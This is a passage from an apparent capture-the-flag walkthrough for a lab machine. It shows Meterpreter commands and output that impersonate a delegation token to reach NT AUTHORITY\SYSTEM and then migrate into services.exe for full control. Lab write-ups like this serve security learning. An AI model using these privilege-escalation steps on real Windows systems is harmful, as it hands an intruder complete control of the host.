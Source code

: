 ```bash
meterpreter > getuid
Server username: alfred\bruce
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

You have successfully impersonated the NT AUTHORITY\SYSTEM user, but beware!  
Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).  
You can migrate to another process to solve this issue and the token impersonation should allow you to migrate to a process with higher permissions.  
Check the running processes.

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
...
```

Migrate to the _services.exe_ process using its PID.

```bash
meterpreter > migrate 668
[*] Migrating from 736 to 668...
[*] Migration completed successfully.
```

Congratulation, now you have full SYSTEM access.  
Prove that by reading the root flag.
